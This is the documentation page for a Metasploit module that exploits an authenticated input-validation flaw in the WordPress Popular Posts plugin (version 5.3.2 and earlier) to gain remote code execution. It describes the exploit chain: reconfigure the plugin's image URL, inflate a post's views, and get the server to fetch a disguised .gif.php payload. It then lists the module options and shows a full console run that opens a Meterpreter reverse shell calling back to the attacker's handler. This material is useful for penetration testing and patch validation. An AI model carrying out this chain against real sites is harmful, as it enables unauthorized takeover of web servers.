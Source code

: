 ## Vulnerable Application

This exploit leverages an authenticated improper input validation in Wordpress plugin Popular Posts <= 5.3.2.
The exploit chain is rather complicated.

Authentication is required and `gd` for PHP is required on the server.
Then the Popular Post plugin is reconfigured to allow for an arbitrary URL for the post image in the widget.
A post is made, then requests are sent to the post to make it more popular than the previous #1 by 5. Once
the post hits the top 5, and after a 60sec (we wait 90) server cache refresh, the homepage widget is loaded
which triggers the plugin to download the payload from our server.  Our payload has a `GIF` header, and a
double extension (`.gif.php`) allowing for arbitrary PHP code to be executed.

### Requirements

#### Server

* `gd` must be installed
* Must have a Popular Posts widget installed on the homepage

#### Client

* Authentication is required
* Authorization to create a post
* FQDN which does NOT resolve to a reserved address (192/172/10)
* Port 80/443/8080 must be open
* The ability to receive a `GET` and `HEAD` request

## Verification Steps

1. Install the plugin to wordpress
1. Start msfconsole
1. Do: `use exploits/multi/http/wp_popular_posts_rce`
1. Do: `set rhosts`
1. Do: `set username`
1. Do: `set password`
1. Do: `set SRVHOSTNAME`
1. Do: `set SRVPORT`
1. Do: `run`
1. You should get a shell.

## Options

### USERNAME

Username of the account which has post privileges. Defaults to `admin`.

### PASSWORD

Password of the account which has post privileges. Defaults to `admin`

### SRVHOSTNAME

FQDN of the metasploit server. Must not resolve to a reserved address (192/10/127/172).
[Ref](https://github.com/WordPress/wordpress-develop/blob/5.8/src/wp-includes/http.php#L560)

### SRVPORT

The local port to listen on. Must be `80`,`443`, or `8080`.
[Ref](https://github.com/WordPress/wordpress-develop/blob/5.8/src/wp-includes/http.php#L584)

## Scenarios

### Wordpress Popular Posts 5.3.2 on Wordpress 5.4.8 running on Ubuntu 20.04

```
[*] Processing popular.rb for ERB directives.
resource (popular.rb)> use exploits/multi/http/wp_popular_posts_rce
[*] Using configured payload php/meterpreter/reverse_tcp
resource (popular.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (popular.rb)> set username admin
username => admin
resource (popular.rb)> set password admin
password => admin
resource (popular.rb)> set verbose true
verbose => true
resource (popular.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (popular.rb)> set SRVHOST 1.1.1.1
SRVHOST => 1.1.1.1
resource (popular.rb)> set SRVPORT 8080
SRVPORT => 8080
resource (popular.rb)> set ReverseAllowProxy true
ReverseAllowProxy => true
resource (popular.rb)> set SRVHOSTNAME test.metasploit.com
SRVHOSTNAME => test.metasploit.com
resource (popular.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/wordpress-popular-posts/readme.txt
[*] Found version 5.3.2 in the plugin
[+] The target appears to be vulnerable.
[*] Payload file name: 33pdOF.gif.php
[*] Checking if gd is installed
[*] Determining post with most views
[*] Top Views: 25
[*] Retrieving wpp_admin token
[*] wpp_admin_token: 77de9f26d8
[*] Updating popular posts settings for images
[*] Clearing image cache
[*] Creating new post
[*] ajax nonce: 62666b5377
[*] wp nonce: 6ec79a728b
[*] Created Post: 257
[*] Writing content to Post: 257
[*] Starting web server to handle request for image payload
[*] Using URL: http://1.1.1.1:8080/33pdOF.gif.php
[*] Adding malicious metadata for redirect to http://test.metasploit.com:8080/33pdOF.gif.php
[*] Sending 30 views to http://2.2.2.2/index.php/2021/12/06/mvihjvanh2eyo2n6b43wjxj16/
[*] Waiting 90sec for cache refresh by server
[*] Attempting to force loading of shell by visiting to homepage and loading the widget
[+] Responding to initial HEAD request (passed check 1)
[+] Responding to GET request (passed check 2)
[*] Triggering shell at: /wp-content/uploads/wordpress-popular-posts/257_33pdOF.gif.php in 10 seconds. Attempt 1 of 5
[*] Sending stage (39282 bytes) to 2.2.2.2
[+] Deleted 257_33pdOF.gif.php
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:38664 ) at 2021-12-05 19:05:57 -0500
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
Meterpreter : php/linux
```
